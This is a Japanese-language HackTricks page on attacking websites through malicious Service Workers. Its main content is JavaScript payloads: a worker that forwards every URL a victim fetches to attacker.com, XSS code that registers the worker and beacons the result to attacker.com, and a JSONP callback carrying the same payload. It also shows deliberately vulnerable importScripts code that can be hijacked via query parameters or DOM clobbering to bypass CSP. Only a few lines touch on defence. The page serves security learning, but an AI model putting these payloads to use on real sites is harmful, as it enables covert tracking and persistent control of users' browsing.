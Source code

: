 # Service Workersの悪用

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または**PEASSの最新バージョンにアクセス**したいですか、または**HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFT](https://opensea.io/collection/the-peass-family)コレクションを見つけます
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れます
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で**フォロー**する🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために** [**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>

**Try Hard Security Group**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## 基本情報

**サービスワーカー**は、ブラウザがバックグラウンドで実行するスクリプトであり、Webページやユーザーの操作を必要としない機能を可能にし、**オフラインおよびバックグラウンド処理**の機能を強化します。サービスワーカーの詳細情報は[こちら](https://developers.google.com/web/fundamentals/primers/service-workers)で見つけることができます。脆弱なWebドメイン内のサービスワーカーを悪用することで、攻撃者はそのドメイン内のすべてのページとの被害者のやり取りを制御することができます。

### 既存のサービスワーカーの確認

既存のサービスワーカーは、**開発者ツール**の**アプリケーション**タブの**サービスワーカー**セクションで確認できます。別の方法として、より詳細なビューを得るために[chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals)を訪れることができます。

### プッシュ通知

**プッシュ通知の許可**は、**サービスワーカー**が直接サーバーと通信する能力に直接影響を与えます。許可が拒否されると、サービスワーカーの潜在的な脅威を制限します。逆に、許可を与えると、潜在的な脆弱性の受信と実行を可能にすることでセキュリティリスクが増加します。

## サービスワーカーを作成する攻撃

この脆弱性を悪用するには、次のものを見つける必要があります：

* **任意のJSファイルをサーバーにアップロードする方法**と、**アップロードされたJSファイルのサービスワーカーをロードするXSS**
* **出力を操作できる脆弱なJSONPリクエスト**と、**任意のJSコードで出力を操作**できる**脆弱なJSONP**に**ペイロードをロードするXSS**と、**悪意のあるサービスワーカーをロード**する。

以下の例では、`fetch`イベントをリッスンし、**取得されたURLを攻撃者のサーバーに送信する**新しいサービスワーカーを**登録**するコードを示します（これは**サーバーにアップロード**するためのコードまたは**脆弱なJSONP**応答を介してロードするためのコードです）:
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
そして、これが**ワーカーを登録**するコードです（**XSS**を悪用して実行できるはずのコード）。この場合、**攻撃者**のサーバーに**GET**リクエストが送信され、サービスワーカーの**登録**が成功したかどうかが**通知**されます：
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
脆弱なJSONPエンドポイントを悪用する場合は、値を`var sw`の内部に配置する必要があります。例：
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
**Service Worker (SW)を悪用する**ための**C2**として、[**Shadow Workers**](https://shadow-workers.github.io)と呼ばれるものがあり、これらの脆弱性を悪用するのに非常に役立ちます。

**24時間キャッシュディレクティブ**は、XSSの脆弱性修正後、オンラインクライアントの状態を前提として、悪意のあるまたは侵害された**サービスワーカー（SW）**の寿命を最大24時間に制限します。脆弱性を最小限に抑えるために、サイトの運営者はSWスクリプトのTime-To-Live（TTL）を下げることができます。開発者はまた、迅速な無効化のために[**サービスワーカーキルスイッチ**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776)を作成することが推奨されています。

## DOM Clobberingを介したSW内の`importScripts`の悪用

Service Workerから呼び出される**`importScripts`**関数は、**異なるドメインからスクリプトをインポート**することができます。この関数が**攻撃者が変更できるパラメータ**を使用して呼び出された場合、彼は**自身のドメインからJSスクリプトをインポート**してXSSを取得できます。

**これはCSP保護をバイパスします。**

**脆弱なコードの例:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM Clobberingを使用する

DOM Clobberingについての詳細は、以下を参照してください:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

SWが**`importScripts`**を呼び出すURL/ドメインが**HTML要素内にある場合**、DOM Clobberingを使用してそれを変更して、SWが**自分のドメインからスクリプトを読み込むようにする**ことが可能です。

これの例については、参照リンクを確認してください。

## 参考文献

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

**Try Hard Security Group**

<figure><img src="../.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

* **サイバーセキュリティ企業で働いていますか？** **HackTricksで会社を宣伝**したいですか？または**最新バージョンのPEASSにアクセス**したいですか？または**HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)のコレクションを見つけます
* [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れます
* **[💬](https://emojipedia.org/speech-balloon/) [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしてください 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **ハッキングトリックを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **および** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>
